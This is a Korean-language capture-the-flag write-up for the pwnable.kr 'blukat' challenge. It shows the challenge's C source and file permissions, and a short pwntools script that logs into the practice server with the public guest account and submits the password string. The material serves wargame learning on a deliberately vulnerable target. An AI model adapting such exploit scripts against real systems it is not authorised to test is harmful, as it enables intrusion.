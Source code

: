 ```yaml
---
title: "[pwnable.kr]blukat"
date: 2020-1-15
tags: [pwnable.kr]
categories: [pwnable.kr]
---
```


strcmp로 `/home/blukat/password` 값과 입력한 값을 비교해서 같으면 `calc_flag` 함수에서 xor해서 flag로 출력해준다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <fcntl.h>
char flag[100];
char password[100];
char* key = "3\rG[S/%\x1c\x1d#0?\rIS\x0f\x1c\x1d\x18;,4\x1b\x00\x1bp;5\x0b\x1b\x08\x45+";
void calc_flag(char* s){
	int i;
	for(i=0; i<strlen(s); i++){
		flag[i] = s[i] ^ key[i];
	}
	printf("%s\n", flag);
}
int main(){
	FILE* fp = fopen("/home/blukat/password", "r");
	fgets(password, 100, fp);
	char buf[100];
	printf("guess the password!\n");
	fgets(buf, 128, stdin);
	if(!strcmp(password, buf)){
		printf("congrats! here is your flag: ");
		calc_flag(password);
	}
	else{
		printf("wrong guess!\n");
		exit(0);
	}
	return 0;
}
```

현재 내 id다.

```
uid=1104(blukat) gid=1104(blukat) groups=1104(blukat),1105(blukat_pwn)
```

`/home/blukat/password` 의 권한이 없다. 

```
-r-xr-sr-x   1 root blukat_pwn 9144 Aug  8  2018 blukat
-rw-r--r--   1 root root        645 Aug  8  2018 blukat.c
-rw-r-----   1 root blukat_pwn   33 Jan  6  2017 password
```

fgets로 실행후 인자로 들어가는 password값을 보면 이렇다. 그래서 그냥 이거 입력해주면 된다.

![](https://user-images.githubusercontent.com/32904385/72435654-ece7b980-37e1-11ea-945f-d69da00dc310.png)

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
s = ssh('blukat','pwnable.kr',port=2222,password='guest')
p = s.process('./blukat')

p.sendline('cat: password: Permission denied')

p.interactive()
```

